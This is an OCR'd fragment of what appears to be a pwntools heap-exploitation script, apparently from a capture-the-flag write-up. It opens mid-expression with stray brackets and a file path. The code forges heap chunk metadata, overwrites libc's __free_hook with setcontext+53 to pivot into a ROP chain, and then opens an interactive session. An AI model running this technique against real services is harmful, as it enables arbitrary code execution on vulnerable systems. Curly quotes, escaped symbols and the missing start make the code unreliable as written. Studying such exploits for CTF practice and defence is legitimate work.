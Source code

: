                 )

            `}`,

        )

assert len(rop) &lt;= 0x200

edit(4, rop)

​

edit(0, flat(‘0’ * 0x108))

edit(0, flat(heap + 0x3b0 + 0x10, heap + 0x3b0 + 0x10, heap + 0x3b0, heap + 0x3b0, ‘x’ * 0xe0, 0x110))

delete(1)

​

add(0x30)

add(0x30)

​

delete(5)

delete(1)

​

edit(0, flat(libc.sym[“__free_hook”]))

add(0x30)

add(0x30)

add(0x30)

​

edit(6, flat(libc.address + 0x520a5)) # setcontext + 53

# DEBUG()

# pause()

# context.log_level = “debug”

delete(4)

​

io.interactive()

**pipeline**
